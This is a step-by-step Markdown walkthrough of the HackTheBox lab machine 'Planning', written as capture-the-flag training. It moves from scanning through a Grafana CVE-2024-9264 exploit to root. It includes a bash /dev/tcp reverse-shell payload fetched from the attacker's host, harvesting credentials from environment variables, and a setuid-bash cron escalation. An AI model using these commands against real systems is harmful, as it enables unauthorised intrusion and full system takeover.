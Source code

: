 This is a detailed, step-by-step Markdown walkthrough for the HackTheBox machine **Planning**, guiding users through the full exploitation process — from initial reconnaissance to root access.

This guide is ideal for penetration testers or HTB enthusiasts who want a structured learning approach, combining enumeration, exploitation (Grafana CVE-2024–9264), SSH access, port forwarding, and privilege escalation using cron jobs.

---

## 1. Preparation & Scanning

### 1.1. Connect to HTB VPN
```bash
sudo openvpn --config <your_htb_file.ovpn>
```

### 1.2. Add Hosts File Entries
```bash
echo "10.129.176.246 planning.htb" | sudo tee -a /etc/hosts
```

### 1.3. Nmap Scan
```bash
nmap -Pn -p- --min-rate 2000 -sC -sV -oN nmap-scan.txt 10.129.176.246
```
**Expected Result:** Ports 22 (SSH) and 80 (HTTP) are open.

---

## 2. Initial Enumeration

### 2.1. Web Recon
Visit `http://planning.htb` in your browser. If nothing appears, brute-force directories:
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://planning.htb/FUZZ -fs <size>
```
**Key Find:** `grafana.planning.htb` subdomain

### 2.2. Update Hosts File
```bash
echo "10.129.176.246 grafana.planning.htb" | sudo tee -a /etc/hosts
```

### 2.3. Enumerate Grafana
Visit `http://grafana.planning.htb/`. Default login prompt appears.

---

## 3. Exploiting Grafana

### 3.1. Login with Default Credentials
```text
Username: admin
Password: 0D5oT70Fq13EvB5r
```

### 3.2. Grafana Exploitation (CVE-2024–9264)
Confirm version (e.g., 11.0.0). Use public exploit for arbitrary file read/RCE.

### 3.3. Prepare Reverse Shell Payload
```bash
echo 'bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1' > rev.sh
python3 -m http.server 8000
```

### 3.4. Set Up Listener
```bash
nc -lvnp 1337
```

### 3.5. Trigger Exploit
```bash
python3 exploit.py --url http://grafana.planning.htb --payload http://<YOUR_IP>:8000/rev.sh
```
**Result:** Reverse shell inside Grafana container

---

## 4. Privilege Escalation to User

### 4.1. Enumerate Env Vars in Container
```bash
env
```
Look for Enzo's credentials

### 4.2. SSH as Enzo
```bash
ssh enzo@planning.htb
# Password: <from environment>
```

### 4.3. Grab User Flag
```bash
cat /home/enzo/user.txt
```

---

## 5. Lateral Movement: CronJobs Dashboard

### 5.1. Port Forwarding to Internal App
```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```
Then visit: `http://127.0.0.1:8000`

### 5.2. Login to Cron Dashboard
Use discovered credentials

---

## 6. Gaining Root via CronJob Abuse

### 6.1. Create Malicious Cron Job
```bash
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash
```

### 6.2. Trigger Root Shell
```bash
/tmp/rootbash -p
whoami
# root
```

### 6.3. Capture Root Flag
```bash
cat /root/root.txt
```

---

## Key Takeaways

- Enumeration is critical: web, environment, SMB, SSH, etc.
- Grafana misconfiguration & RCE via CVE-2024–9264 was the entry point.
- CronJob misconfig leveraged for root privilege escalation.
